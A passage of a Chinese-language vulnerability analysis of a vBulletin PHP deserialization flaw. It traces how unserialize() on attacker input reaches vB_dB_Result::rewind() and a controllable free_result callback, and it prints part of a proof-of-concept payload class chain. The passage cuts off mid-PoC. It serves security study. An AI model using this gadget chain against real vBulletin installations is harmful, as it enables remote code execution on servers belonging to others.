             foreach ($args AS $varname => $value)
            {
                $result .= $varname;
    

通过反序列化，我们可以使之能生成在执行环境上下文中已经定义好了的类实例，并通过寻找一个含有 `__wakeup()` 或者 `__destruct()`魔术方法存在问题的类来进行利用。然后原文中所提到的利用方法并不是这样，其使用的是继承于 PHP 迭代器类型的 `vB_dB_Result` 类，由于`$args = @unserialize($arguments)` 产生了一个迭代器 `vB_dB_Result` 类实例，因此在后面进行`foreach` 操作时会首先调用其 `rewind()` 函数。

而在 `rewind()` 函数处理过程中，会根据实例变量状态进行调用：

    
    
    #!php
    public function rewind()
    {
        if ($this->recordset)
        {
            $this->db->free_result($this->recordset);
        }
    

这里就可以通过反序列化来控制 `$this->recordset` 的值，并且 `$this->db->free_result` 最终会调用：

    
    
    #!php
    function free_result($queryresult)
    {
        $this->sql = '';
        return @$this->functions['free_result']($queryresult);
    }
    

`$this->functions['free_result']` 原本的初始化值为`mysql_free_result`，但是由于反序列化的原因，我们也能控制 `vB_dB_Result` 类实例中的 `db` 成员，更改其对应的`functions['free_result']` 为我们想要执行的函数，因此一个任意代码执行就产生了。

# 0x01 利用分析和完善

* * *

观察一下原文中提供的 Payload 构造 PoC：

    
    
    #!php
    <?php
    class vB_Database {
           public $functions = array();
           public function __construct() {
                   $this->functions['free_result'] = 'phpinfo';
           }
    }    
    
    class vB_dB_Result {
           protected $db;
           protected $recordset;
           public function __construct() {
                   $this->db = new vB_Database();
                   $this->recordset = 1;
           }
    }    
    